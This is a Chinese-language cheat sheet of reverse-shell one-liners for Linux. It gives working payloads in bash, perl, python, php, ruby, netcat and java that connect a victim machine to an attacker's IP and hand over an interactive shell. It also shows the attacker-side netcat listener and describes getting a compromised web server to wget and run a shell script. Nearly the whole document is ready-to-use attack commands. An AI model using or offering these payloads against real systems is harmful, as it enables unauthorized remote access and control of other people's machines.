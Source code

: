## Linux反弹shell的10种姿势  


### `bash`版本   

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### `perl`版本     

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


### `Python`版本  

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### `php`版本  

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### `ruby`版本  

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### `nc`版本  

```
nc -e /bin/sh 10.0.0.1 1234

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

nc x.x.x.x 8888|/bin/sh|nc x.x.x.x 9999

```

### `java`版本  

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### `nc`版本补充   

* 当被攻击机上面的nc没有`-e`或者`-c`参数的时候

```bash
mknod /tmp/back p
/bin/sh 0</tmp/back | nc 10.101.177.100 14332 1>/tmp/back
```

* 攻击机

```bash
nc -lnvp 14332
```

### 实例
可以执行命令的`web`服务器首先`wget`下载`123.sh`文件，再执行`bash 123.sh`，执行之前攻击机要用`nc`监听同样的端口。`123.sh`文件里面的`ip`地址是`nc`监听机器的`ip`地址
